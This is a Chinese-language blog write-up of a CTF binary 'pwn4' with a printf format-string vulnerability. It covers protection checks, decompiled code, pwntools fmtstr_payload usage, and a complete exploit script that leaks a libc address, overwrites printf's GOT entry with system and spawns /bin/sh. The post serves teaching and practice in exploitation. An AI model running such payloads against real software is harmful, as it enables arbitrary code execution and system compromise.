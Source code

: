 ```yaml
---
layout:     post
title:      "fmtstr利用之pwn4"
subtitle:   "记一简单格式化字符串利用过程"
date:       2018-09-01 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - 笔记
 
---
```



# 0x00 代码分析

1，检查保护

	[*] '/home/chris/Pwn/pwn4'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
 只开了NX

2，使用IDA分析程序流程

main 函数分析

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  char buf; // [esp+0h] [ebp-88h]
	
	  puts("please login first");
	  fflush(stdout);
	  login();
	  if ( login_flag )
	  {
	    printf("welcome~%s,the present for first meet~%p\n", &name, &buf);
	    puts("do you have something say to me~");
	    fflush(stdout);
	    if ( read(0, &buf, 0x80u) < 0 )
	    {
	      puts("read error");
	      exit(0);
	    }
	    printf(&buf);
	  }
	  else
	  {
	    puts("please login first!");
	    login();
	  }
	  return 0;
	}


login 函数分析

	int login()
	{
	  puts("your name:");
	  fflush(stdout);
	  if ( read(0, &name, 0x20u) < 0 )
	  {
	    puts("read error");
	    exit(0);
	  }
	  login_flag = 1;
	  return puts("logined!");
	}

程序定义了一个buf[88]的数组，首先让输入你的名字，然后再打印出刚才输入的名字和buf的栈地址，然后再让你输入一个字符串，打印出这个字符串。


## 0x01 漏洞分析

首先分析输入name的地方，name的地址在bss段，不在栈中无法溢出。输入buf的地方，buf虽然在栈中，大小为`ebp-88h`，但是输入的地方`read(0, &buf, 0x80u)`，长度不能够溢出。明显`printf(&buf);`存在格式化字符串漏洞。


## 0X02 漏洞利用与fmtstr_payload介绍

很明显的格式化字符串漏洞了，执行一个任意地址泄露和任意地址写（泄露printf函数的plt.got表内地址，往main函数ret地址写一个main函数地址，回去二次执行程序流程）。因为前面泄露了地址，程序提供了libc库，算出system函数实际地址，第二次就往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。最后printf（&system("/bin/sh")）拿到shell。

这里介绍一个pwntools自带的格式化字符串任意地址写的函数：**fmtstr_payload**

`fmtstr_payload（offset，writes，numbwritten = 0，write_size ='byte' ）`

使用给定参数创建有效负载。它可以为32位或64位架构生成有效负载。addr的大小取自`context.bits`

参数：

* offset（int） - 您控制的第一个格式化程序的偏移量
* 写（dict） - dict with addr，value{addr: value, addr2: value2}
* numbwritten（int） - printf函数已写入的字节数
* write_size（str） - 必须是byte，short或int。告诉您是否要逐字节写入，短按short或int（hhn，hn或n）

例子：

	>>> context.clear(arch = 'amd64')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
	>>> context.clear(arch = 'i386')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00%322419386c%1$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'


## 0X03 完整利用过程

* 构造`p32(put_got)+"%4$s"`，同时这里还要往返回地址写一个main函数地址。找到`&buf+9c`偏移为ret地址，继续构造`fmtstr_payload(6,{ret:main},12)`，参数6为4偏移加上泄露字符串的长度2DWORD,参数12为%s泄露出的地址和额外数据长度+4，因为%s以`'\0'`结尾,不同libc库环境可能这个参数数值不同，可自行根据判断调整。
* 成功泄露地址后算出system函数地址，第二次执行流程利用，同理`fmtstr_payload(4,{printf_got:system,ret+4:main},0,'short')+";/bin/sh;#"`往ret+4写是因为，第二次执行main函数后ret地址往后挪了一位。然后往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。不同的是这里的payload最后要写入个`;/bin/sh;#`因为第三次执行流程的`printf(&buf)`buf地址为第二次的buf地址偏一点点，用了参数截断，执行/bin/sh。




## 0x04 脚本

	from pwn import *
	context.log_level="debug"
	context.arch="i386"
	p = process("./pwn4")
	
	p.recvuntil("name:")
	p.sendline("A"*0x10)
	p.recvuntil("meet~")
	
	stack = int(p.recvuntil("\n",drop=True),16)
	
	print hex(stack)
	ret = stack + 0x9c
	print hex(ret)
	put_got = 0x804A018
	pay = p32(put_got)+"%4$s"
	
	pay2 = fmtstr_payload(6,{ret:0x804856E},12)
	pay = pay + pay2
	p.recvuntil("g say to me~")
	
	p.sendline(pay)
	print p.recvuntil("\x18\xa0\x04\x08")
	puts = u32(p.recv(4))
	
	libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")
	
	system = puts - libc.symbols['puts'] + libc.symbols['system']
	
	sleep(2)
	p.send("A"*0x20)
	
	print hex(system)
	
	pay = fmtstr_payload(4,{0x804a010:system,ret+4:0x0804856e},0,'short')+";/bin/sh;#"
	
	p.send(pay)
	
	sleep(2)
	p.recvuntil("#")
	sleep(1)
	p.sendline("BBBBBB")
	
	p.interactive()

## 0x05 总结

其实这道题有个很简单的解法，直接往返回地址写rop，泄露地址，执行system，全部rop就搞定了

大致就这样 :

`exp1=fmtstr_payload(4,{ret:put_plt,ret+4:main,ret+8:put_got},0,'short')`

`exp2=fmtstr_payload(4,{ret:system_addr,ret+4:任意,ret+8:name_addr('/bin/sh')},0,'short')`

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/fmtstr%E5%88%A9%E7%94%A8%E4%B9%8Bpwn4)


